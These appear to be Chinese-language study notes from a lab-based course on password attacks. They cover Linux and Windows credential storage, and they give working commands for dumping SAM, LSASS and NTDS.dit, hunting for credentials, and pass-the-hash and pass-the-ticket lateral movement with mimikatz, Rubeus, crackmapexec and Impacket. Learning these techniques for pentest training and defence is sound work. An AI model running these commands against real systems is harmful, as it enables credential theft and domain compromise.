


# 密码攻击

## 一、凭据存储

### 1. Linux

> Linux 系统的密码被存储在 shadow 文件中，位与 /etc/shadow 文件中

该文件具有的格式：参考文章 ---> [Linux /etc/shadow（影子文件）内容解析（超详细）](http://c.biancheng.net/view/840.html)

```shell
mark:$6$.n.:17736:0:99999:7:::
[--] [----] [---] - [---] ----
|      |      |   |   |   |||+-----------> 9. 保留
|      |      |   |   |   ||+------------> 8. 到期日期
|      |      |   |   |   |+-------------> 7. 密码过期后的宽限天数
|      |      |   |   |   +--------------> 6. 密码需要变更前的警告天数
|      |      |   |   +------------------> 5. 密码有效期
|      |      |   +----------------------> 4. 最小修改时间间隔
|      |      +--------------------------> 3. 最后一次修改时间
|      +---------------------------------> 2. 加密的密码
+----------------------------------------> 1. 用户名
```

> 对于密码的加密，具有一些特殊之处，密码的格式如下：
>
> ```shell
> # $y$j9T$3QSBB6CbHEu...SNIP...f8Ms
> $y  $j9T $3QSBB6CbHEu...SNIP...f8Ms
> [-] [--] [-------------------------]
> |     |                |+-------------------> 3. hashed
> |     |+------------------------------------> 2. salt
> |+------------------------------------------> 2. type 加密哈希的方法
> ```

| ID    | 密码哈希算法        |
| ----- | ------------- |
| $1    | MD5           |
| $2a   | Blowfish      |
| $5    | SHA-256       |
| $6    | SHA-512       |
| $sha1 | SHA1crypt     |
| $y    | Yescrypt      |
| $gy   | Gost-yescrypt |
| $7    | Scrypt        |

在过去主要使用 /etc/group 文件来存储密码，该文件格式 ：

```shell
# 如果密码为 x , 表示密码存储在 /etc/shadow
用户名：密码：UID（用户ID）：GID（组ID）：描述性信息：主目录：默认Shell
```

### 2. Windows 身份验证

## 二、远程密码攻击

> 如果我们要通过网络管理 Windows 服务器，我们需要借助于 RDP、WinRM、SSH

### 1. WinRM

> 我们可以使用一些暴力破解工具，破解此服务密码 (eg: crackmapexec ) ，破解成功后使用 Evil-WinRM 进行登陆

### 2. SSH

> 可以使用一些暴力破解工具进行破解密码，然后登陆

### 3. RDP

## 三、Windows 本地密码攻击

### 1. 攻击 SAM

#### 1. 复制 SAM 注册表配置单元

| Registry Hive | 描述                    |
| ------------- | --------------------- |
| hklm\sam      | 包含和本地账号密码关联的哈希值       |
| hklm\system   | 包含系统引导密钥，用于加密 SAM 数据库 |
| hklm\security | 包含域账户的缓存凭据            |

#### 2. 使用 reg.exe 复制注册表配置单元并保存

```shell
# 需要管理员身份
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

> 保存完后使用文件传输相关的方法，传输副本到本地

#### 3. 使用 Impacket 的 secretsdump.py 转储哈希

```shell
# secretsdump 的第一步是先获得系统引导密钥
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

#### 4. 使用 hashcat 破解哈希

```shell
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### 5. 扩展

```shell
# 通过访问具有本地管理员权限的凭据，我们也可以通过网络定位 LSA Secrets。 这可以让我们从正在运行的服务、计划任务或使用 LSA 秘密存储密码的应用程序中提取凭据。
# 远程转储 LSA 机密
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
# 从 SAM 数据库远程转储哈希值
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

### 2. 攻击 LSASS

> LSASS 是一项关键服务，在所有 Windows 操作系统的凭证管理和身份验证过程中发挥这核心作用

<figure><figcaption></figcaption></figure>

在首次登陆时，LSASS 将会：

* 在内存中本地缓存凭据
* 创建[访问令牌](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* 执行安全策略
* 写入 Windows 的安全日志

#### 1. 转储 LSASS 进程内存

```shell
# 使用 rundll32.exe 转储 LSASS 进程内存
# 在 CMD 查找 LSASS 的 PID
tasklist /svc
# 在 Powershell 查找 LSASS 的 PID
Get-Process lsass

# 创建 LSASS.dump
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

#### 2. 使用 Pypykatz 提取凭据

> 我们可以使用 [pypykatz](https://github.com/skelsec/pypykatz) 尝试从 .dmp 文件中提取凭据， 这是由 python 编写的Mimikatz 的实现

```shell
# 运行 Pypykatz
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

1.  MSV 信息 --> [官方文档](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)

    ```shell
    sid S-1-5-21-4019466498-1700476312-3544718034-1001
    luid 1354633
    	== MSV ==
    		Username: bob
    		Domain: DESKTOP-33E7O54
    		LM: NA
    		NT: 64f12cddaa88057e06a81b54e73b949b
    		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
    		DPAPI: NA
    ```

    > MSV 是 Windows 的一个身份验证包，LSA 调用它来验证针对 SAM 数据库的登录尝试， Pypykatz 提取与存储在 LSASS 进程内存中的 bob 用户帐户登录会话相关联的`SID`、`Username`、`Domain`甚至`NT`&密码哈希
2.  WDIGEST

    ```shell
    == WDIGEST [14ab89]==
    		username bob
    		domainname DESKTOP-33E7O54
    		password None
    		password (hex)
    ```

    > WDIGEST 是一个较旧的身份认证协议，LSASS 使用明文缓存 WDIGEST 使用的凭据，
3.  Kerberos

    ```shell
    == Kerberos ==
        Username: bob
        Domain: DESKTOP-33E7O54
    ```

    > Kerberos 是 Windows 域环境中 Active Directory 使用的网络身份验证协议。 域用户帐户在使用 Active Directory 进行身份验证时被授予票证。 此票证用于允许用户访问他们已被授予访问权限的网络上的共享资源，而无需每次都键入其凭据。 LSASS 缓存与 Kerberos 关联的密码、电子密钥、票证和 PIN。 可以从 LSASS 进程内存中提取这些并使用它们来访问加入同一域的其他系统。
4.  DPAPI

    ```shell
    == DPAPI [14ab89]==
    		luid 1354633
    		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
    		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
    		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
    ```

    > 数据保护应用程序编程接口或[DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)是 Windows 操作系统中的一组 API，用于在每个用户的基础上为 Windows 操作系统功能和各种第三方应用程序加密和解密 DPAPI 数据 blob。以下是一些使用 DPAPI 的应用程序示例及其用途：

    | 应用                        | DPAPI的使用                    |
    | ------------------------- | --------------------------- |
    | Internet Explorer         | 密码表单自动完成数据（已保存站点的用户名和密码）。   |
    | Google Chrome             | 密码表单自动完成数据（已保存站点的用户名和密码）。   |
    | Outlook                   | 电子邮件帐户的密码。                  |
    | Remote Desktop Connection | 保存连接到远程机器的凭据。               |
    | Credential Manager        | 保存用于访问共享资源、加入无线网络、VPN 等的凭据。 |

### 3. 攻击 AD 和 NTDS.dit

<figure><figcaption></figcaption></figure>

Windows 系统加入域后，将不再默认引用 SAM 数据库来验证登录请求。该加入域的系统现在将发送所有身份验证请求，以在允许用户登录之前由域控制器验证。这并不意味着不能再使用 SAM 数据库。希望使用 SAM 数据库中的本地帐户登录的人仍然可以通过指定设备的主机名（以用户名开头）（例如：WS01/nameofuser）或直接访问设备然后在登录 UI 中键入 ./ 来实现此目的在用户名字段中。这是值得考虑的，因为我们需要注意哪些系统组件受到我们执行的攻击的影响。当通过直接物理访问或通过网络将 Windows 桌面操作系统或 Windows 服务器操作系统作为目标时，它还可以为我们提供额外的攻击途径。

#### 1. 使用 CrackMapExec 进行密码的获取

```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

#### 2. 捕获 NTDS.dit

NTDS 是和 AD 一起用于查找和组织网络资源的目录服务，该 NTDS.dit 存储在域控制器 %systemroot%/ntds 上，.dit 代表目录信息树,这是和 AD 管理的主要数据库文件，存储所有域用户名、密码哈希和其它关键架构信息，如果可以捕获此文件，我们可能会破坏域中的每个帐户

```shell
# 使用 Evil-WinRM 连接 DC
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
# 检查本地组成员
*Evil-WinRM* PS C:\> net localgroup
# 检查用户账户权限，包括域
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### 3. 创建 C 的卷影副本

> 我们可以使用 VSS 创建可以主动读取和写入的卷影副本

```shell
# 创建卷影副本
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
# 从 VSS 复制 NTDS.dit
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### 4. 使用 CrackMapExec

> 我们可以使用 CrackMapExec 来完成上面的步骤

```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

#### 5. 继续利用

> 我们可以使用密码破解工具，破解哈希也可以使用 传递哈希(PTH) 对系统进行身份验证

```shell
# 使用 Evil-WinRM 示例传递哈希
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### 4. Windows 中凭据搜索

#### 1. 工具

我们可以利用 [Lazagne](https://github.com/AlessandroZ/LaZagne) 等第三方工具快速反向 WEB 浏览器和其它已经安转应用程序可能不安全的存储凭据

```shell
# 运行
C:\Users\bob\Desktop> start lazagne.exe all
```

#### 2. 使用 findstr

findstr --> [官方文档](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)

```shell
# 使用查找字符串
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## 四、Linux 本地密码攻击

### 1. Linux 中的凭证搜索

| 文件     | 历史    | 内存   | 凭据       |
| ------ | ----- | ---- | -------- |
| 配置文件   | 日志    | 缓存   | 浏览器存储的凭据 |
| 数据库    | 命令行历史 | 内存处理 |          |
| 笔记     |       |      |          |
| 脚本     |       |      |          |
| 源代码    |       |      |          |
| 定时任务   |       |      |          |
| SSH 密钥 |       |      |          |

#### 1. 文件

```shell
# 查找配置文件
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# 搜索配置文件中的凭据
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

# 数据库
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

# 笔记
find /home/* -type f -name "*.txt" -o ! -name "*.*"

# 脚本文件
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

# 定时任务
cat /etc/crontab
ls -la /etc/cron.*/

#SSH 私钥
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
# SSH 公钥
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

#### 2. 日志

| 日志文件                | 描述                           |
| ------------------- | ---------------------------- |
| /var/log/messages   | 通用系统活动日志。                    |
| /var/log/syslog     | 通用系统活动日志。                    |
| /var/log/auth.log   | (Debian) 所有与身份验证相关的日志。       |
| /var/log/secure     | (RedHat/CentOS) 所有身份验证相关的日志。 |
| /var/log/boot.log   | 引导信息。                        |
| /var/log/dmesg      | 硬件和驱动程序相关信息和日志。              |
| /var/log/kern.log   | 内核相关的警告、错误和日志。               |
| /var/log/faillog    | 登录尝试失败。                      |
| /var/log/cron       | 与 cron 作业相关的信息。              |
| /var/log/mail.log   | 所有与邮件服务器相关的日志。               |
| /var/log/httpd      | 所有与 Apache 相关的日志。            |
| /var/log/mysqld.log | 所有 MySQL 服务器相关的日志。           |

```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

#### 3. 内存和缓存

> 许多应用程序和进程使用身份验证所需的凭据并将其存储在内存或文件中，

1.  mimipenguin --> [Github 官网](https://github.com/huntergregal/mimipenguin)

    ```shell
    sudo python3 mimipenguin.py
    sudo bash mimipenguin.sh 
    ```
2. LaZagne

#### 4. Firefox 浏览器

> 当我们在 Firefox 浏览器中存储网页的凭据时，它们会被加密并存储在`logins.json`系统中 ， 使用的工具： firefox\_decrypt --> [Github](https://github.com/unode/firefox\_decrypt)

```shell
# 列出 Firefox 存储的凭据
ls -l .mozilla/firefox/ | grep default 
# 查看存储凭据
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
# 解密 Firefox 凭据
python3.9 firefox_decrypt.py
# 使用 LaZagne
python3 laZagne.py browsers
```

### 2. Passwd, Shadow & Opasswd

> 基于 Linux 的发行版可以使用许多不同的身份验证机制，最常用和标准的机制之一是 可插入身份验证模块 (PAM)， 用于次模块称为 pam\_unix.so 和 pam\_unix2.so 并且位与 /usr/lib/x86\_64-linux-gun/security/ 基于 Debian 的发行版中，这些模块管理用户信息、身份验证、会话、当前密码和旧密码，例如： 如果我想更改 Linux 的 passwd 账户密码，则会调用 PAM , 会采取适当的预防措施并相应的存储和处理信息
>
> 于管理的 pam\_unix.so 标准模块使用来自系统库和文件的标准化 API 调用来更新帐户信息。 读取、管理和更新的标准文件是 /etc/passwd 和 /etc/shadow。 PAM 还有许多其他服务模块，例如 LDAP、mount 或 Kerberos。

对于 passwd 、shadow 见上

#### 1. Opasswd

PAM 库 (pam\_unix.so ) 可以防止重复使用就密码，存储旧面的文件是 /etc/security/opasswd 如果未手动改变文件权限，则还需要管理员权限才可以读取

## 五、横向移动

### 1. 传递哈希

传递哈希攻击是一种攻击者使用 `密码哈希`而不是纯文本密码进行身份验证的技术，攻击者不需要机密哈希就可以获得明文密码，PTH 攻击利用身份验证协议，因为密码哈希在每个会话中保持不变，知道密码被改变

#### 1. NTLM 介绍

> NTLM 是一组安全协议，可以验证用户身份，同时保护其数据的完整性和机密性，NTLM 使用质询-响应协议来验证用户的身份。
>
> 使用 NTLM ，存储在服务器和域控制器上的面不会被加盐，这意味这拥有密码哈希的对手可以在不知道原始密码的情况下对会话进行身份验证

#### 2. 使用 Mimikatz 传递哈希 (Windows)

我们可以用来执行哈希传递的攻击的工具是 [Mimikatz](https://github.com/gentilkiwi/mimikatz), 该工具具有一个名为 sekurlsa:pth ，允许我们通过使用用户密码的哈希启动一个进程来执行传递哈希攻击，要使用户此模块我们需要：

* /user : 模拟的用户名
* /rc4或 /NTLM 用户密码的 NTLM 的哈希
* /domain : 模拟用户所属的域
* /run : 要在用户上下文中运行的程序

```shell
# 使用 Mimikatz 从 Windows 传递哈希
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

#### 3. 使用 Powershell Invoke-TheHash 传递哈希 (Windows)

在Windows 上传递哈希的另一个工具是 [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) ，该工具是一组 Powershell 函数，用于使用 WMI 和 SMB 来执行传递哈希攻击。

使用`Invoke-TheHash`，我们有两种选择：SMB 或 WMI 命令执行。要使用这个工具，我们需要指定以下参数来在目标计算机中执行命令：

* `Target`- 目标的主机名或 IP 地址。
* `Username`- 用于身份验证的用户名。
* `Domain`- 用于身份验证的域。本地帐户或在用户名后使用@domain 时不需要此参数。
* `Hash`- 用于身份验证的 NTLM 密码哈希。此函数将接受 LM:NTLM 或 NTLM 格式。
* `Command`- 在目标上执行的命令。如果未指定命令，该函数将检查用户名和哈希是否可以访问目标上的 WMI。

```shell
# 使用SMB方式进行命令执行，创建一个名为mark的新用户，并将该用户添加到Administrators组中
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# 使用 WMI 调用 TheHash
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain Administrator -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command ""
```

#### 4. 使用 Impacket 传递哈希 (Linux)

我们可以使用 Impacket 工具包中的其他几种工具来使用传递哈希攻击来执行命令，例如：

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-ateexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

```shell
# 使用 impacket-psexec 传递哈希
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

#### 5. 使用 CrackMapExec (Linux) 传递哈希

```shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### 6. 使用 evil-winrm (Linux) 传递哈希

```shell
# 注意：使用域账户时，我们需要包含域名，例如：administrator@inlanefreight.htb
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### 7. 使用 RDP (Linux) 传递哈希

```shell
# 启用受限管理模式以允许 PtH
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# 使用 RDP 传递哈希
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

#### 8. UAC 限制传递本地账户的哈希

UAC（用户帐户控制）限制本地用户执行远程管理操作的能力。当注册表项`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`设置为 0 时，表示内置本地管理员帐户（RID-500，“管理员”）是唯一允许执行远程管理任务的本地帐户。将其设置为 1 也允许其他本地管理员。

> \*\*注意：\*\*有一个例外，如果`FilterAdministratorToken`启用了注册表项（默认情况下禁用）（值为 1），则 RID 500 帐户（即使已重命名）将在 UAC 保护中注册。这意味着远程 PTH 将在使用该帐户时对机器失败。

### 2. Windows 传递票证 (PtT)

> 在 AC环境中横向移动的另一种方法称为 传递票证攻击，在这种攻击中我们使用窃取的 Kerberos 票证而不是 NTLM 密码哈希进行横行移动

#### 1. Pass the Ticket

我们需要一个有效的 Kerberos 票证来执行 PtT

* 服务票证 (TGS - 票证授予服务)运行访问特定资源
* 票证授予票证 （TGT） 我们可以使用它来请求服务票证以访问用户拥有权限的任何资源

#### 2. 从 WIndows 收集 Kerberos 票证

> 我们已经获得一台电脑的本地管理员权限

1.  在 Windows 中票证是由 LSASS 进程处理和存储的，我们可以使用 Mimkatz 中的模块 `sekurlsa::tickets /export` 获取所有的票证,可以得到一个 .kirbi 文件

    ```shell
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export
    ```
2.  我们也可以使用 [Rubeus](https://github.com/GhostPack/Rubeus) 和导出票证 dump 选项，此选项可以转储所有票证,该工具的结果时间会产生一个 Base64 格式打印的票证

    ```shell
    c:\tools> Rubeus.exe dump /nowrap
    ```
3. 传递密钥或破解哈希

#### 3. Pass the Key or OverPass the Hash

传统的 PtH 技术不涉及或重用 Kerberos 的 NTLM 哈希

传统的哈希传递 (PtH) 技术涉及重用不涉及 Kerberos 的 NTLM 密码哈希。 Pass the Key 或 OverPass the Hash 方法将加入域的用户的哈希/密钥（rc4\_hmac、aes256\_cts\_hmac\_sha1 等）转换为完整的票证授予票证 (TGT)。 此技术由 Benjamin Delpy 和 Skip Duckwall 在他们的演示文稿“[滥用 Microsoft Kerberos](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18)”中开发。

要伪造票证，我们需要有用户的哈希

1.  我们可以使用 Mimkatz 转储所有用户的 Kerberos 加密密钥使用模块 sekurlsa::ekeys ，该模块将枚举 Kerberos 包中存在的所有密钥类型

    ```shell
    # Mimikatz - 提取 Kerberos 密钥
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::ekeys
    	     * Username : plaintext
             * Domain   : inlanefreight.htb
             * Password : (null)
             * Key List :
               aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
               rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
               rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f

    # Mimikatz - 传递密钥或越过哈希
    c:\tools> mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
    ```
2.  Rubeus -- Pass the Key or OverPass the Hash

    ```shell
    # Rubeus --  Pass the Key or OverPass the Hash
    Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
    ```

    > **注意：** Mimikatz 需要管理权限才能执行传递密钥/越过哈希攻击，而 Rubeus 则不需要

#### 4. PtT

> 现在我们有了一些 Kerberos 票证，我们可以使用它们在环境中横向移动。
>
> 使用 Rubeus，我们执行了 OverPass the Hash 攻击并以 base64 格式检索了票证。 相反，我们可以使用标志 /ptt 将票证（TGT 或 TGS）提交到当前登录会话。

```shell
# Rubeus 通行证
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
# Rebeud 通过门票，我们可以使用 .kirbi 文件也可以使用 base64加密后的密文
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
 
# Mimikatz - 通过票证
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

#### 5. 使用 Powershell Rmoting 传递票证

> [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)允许我们在远程计算机上运行脚本或命令。管理员经常使用 PowerShell Remoting 来管理网络上的远程计算机。启用 PowerShell Remoting 会同时创建 HTTP 和 HTTPS 侦听器。侦听器在 HTTP 标准端口 TCP/5985 和 HTTPS 标准端口 TCP/5986 上运行
>
> 要在远程计算机上创建 PowerShell Remoting 会话，您必须具有管理权限，是 Remote Management Users 组的成员，或者在会话配置中具有明确的 PowerShell Remoting 权限。

**1. Mimikatz - PowerShell Remoting with Pass the Ticket**

要使用 PowerShell Remoting 和 Pass the Ticket，我们可以使用 Mimikatz 导入我们的票证，然后打开 PowerShell 控制台并连接到目标机器。让我们打开一个新的`cmd.exe`并执行 mimikatz.exe，然后使用 导入我们收集的票证`sekurlsa::tickets /export`。将票证导入我们的 cmd.exe 会话后，我们可以从同一个 cmd.exe 启动 PowerShell 命令提示符，并使用该命令`Enter-PSSession`连接到目标机器

```shell
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
mimikatz # exit
c:\tools>powershell
```

**2. Rubeus - PowerShell Remoting with Pass the Ticket**

Rubeus 有一个选项`createnetonly`，它创建一个牺牲过程/登录会话（[登录类型 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)）。进程默认是隐藏的，但是我们可以指定flag`/show`来显示进程，结果相当于`runas /netonly`. 这可以防止擦除当前登录会话的现有 TGT。

```shell
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
c:\tools>powershell
```

### 3. Linux 传递票证 (PtT)
